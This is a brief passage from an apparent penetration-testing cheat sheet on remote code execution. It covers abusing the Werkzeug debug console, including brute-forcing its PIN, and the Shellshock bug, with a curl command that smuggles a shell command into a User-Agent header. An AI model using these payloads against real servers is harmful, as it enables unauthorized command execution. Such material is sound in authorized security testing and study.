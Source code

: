 ## RCE

**Werkzeug Debugger**

Find somewhere where user input can be supplied and submit the following string to cause an error:

```
strіng
```

If the target is running their application in debug mode you might be able to run commands. If you are running the target locally, you can probably brute-force the debugger PIN. The debugger PIN is always in the following format: `***-***-***`.

**Shellshock Bug**

```bash
() { :;}; echo vulnerable
```

```zsh
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```

